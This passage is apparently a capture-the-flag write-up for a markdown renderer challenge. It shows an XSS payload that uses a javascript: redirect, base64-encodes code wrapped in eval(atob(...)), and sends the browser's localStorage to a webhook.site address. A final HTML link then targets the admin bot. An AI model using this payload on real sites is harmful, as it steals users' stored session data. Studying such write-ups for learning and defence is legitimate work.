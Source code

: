 
### Goal: Exfiltrate `localStorage`

No Way of Stealing the flag directly, we aim to extract sensitive data stored in the browser’s `localStorage`, which includes:

- `user_id`
    
- `markdown_id`


Then, exfiltrate the data using a webhook:

```js
location.href="https://webhook.site/6baaec6d-cfa1-4539-9e6f-992e76ca95e0/?p="+JSON.stringify(localStorage)
```

We encode this in base64 and wrap it in an `eval(atob(...))` call:

```js
javascript:eval(atob('{payload}'))
```

---

###  Final Exploit Payload

```html
<ul id="markdownList">
    <li><a href="https://markdown-renderer.tjc.tf/register?redirect=javascript%3Aeval%28atob%28%27bG9jYXRpb24uaHJlZj0iaHR0cHM6Ly93ZWJob29rLnNpdGUvNmJhYWVjNmQtY2ZhMS00NTM5LTllNmYtOTkyZTc2Y2E5NWUwLz9wPSIrSlNPTi5zdHJpbmdpZnkobG9jYWxTdG9yYWdlKQo%27%29%29" target="_blank">CLICK</a></li>
</ul>
```

When the bot visits this page and clicks the link, it gets redirected using the vulnerable `register.html`, triggering our javaScript which sends `localStorage` contents to our webhook.

Using the `markdown_id` retrieved from this data, we can then fetch the flag via:

```
GET /markdown/<markdown_id>/details
```

---
